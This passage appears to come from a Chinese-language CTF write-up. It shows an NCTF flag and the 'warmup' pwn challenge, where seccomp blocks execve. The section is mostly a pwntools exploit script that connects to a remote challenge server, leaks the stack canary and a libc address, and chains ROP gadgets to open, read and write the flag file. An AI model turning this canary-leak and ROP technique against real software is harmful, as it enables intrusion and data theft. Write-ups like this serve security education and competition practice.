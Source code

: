 ```
NCTF{Ohh!h0pe_y0u_c4n_pwn_100years_too}
```

## warmup

程序开了seccomp，无法执行exceve，考虑ORW

第一次直接ORW发现失败，可能payload没写好，以为还是有限制了，于是想rop到seccomp搞一下，发现还是不能起shell，后来顺着seccomp继续rop了。。。

```python
from pwn import *
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']
p = process("./warm_up")
p = remote("139.129.76.65", "50007")
e = ELF("./warm_up")
libc = ELF("/libc64.so")
pay = 'a' * 0x8 * 3 + 'b'
p.recv()
p.send(pay)
#p.recv()
p.recvuntil("ab")
canary = u64('\x00' + p.recv(7))
stack = u64(p.recv(6) + '\x00\x00')
print hex(stack)
print hex(canary)
# gdb.attach(p,"b*0x400B2E")
prdi = 0x0000000000400bc3
prsir15 = 0x0000000000400bc1
payload = 'a' * 0x18 + p64(canary) + p64(stack+0x20)
payload += p64(prsir15) + p64(1) * 2
payload += p64(0x400A2A)
#payload=payload.ljust(0x30,'\x00')
payload += p64(0x0) * 2
payload += p64(prdi) + p64(e.got['puts'])
payload += p64(e.plt['puts'])
payload += p64(0x400B30)
payload += p64(0xdeadbeef) * 4
p.sendline(payload)
p.recv()
libc.address = u64(p.recv(6) + '\x00\x00') - libc.symbols['puts']
print hex(libc.address)
# gdb.attach(p, "b*0x400b2f")
p.recvuntil("!")
p.sendline("1\x00")
p.recvuntil("?")
payload = './flag'.ljust(0x18,'\x00') + p64(canary) + p64(stack +0x20)
payload += p64(prdi) + p64((stack-0x90+0xa0))
payload += p64(prsir15) + p64(0) * 2
payload += p64(libc.symbols['open'])
payload += p64(prdi) + p64(3)
payload += p64(prsir15) + p64(stack -0x100) + p64(0)
payload += p64(libc.symbols['read'])
payload += p64(prdi) + p64(1)
payload += p64(prsir15) + p64(stack -0x100) + p64(0)
payload += p64(libc.symbols['write'])

p.sendline(payload)
p.interactive()
```
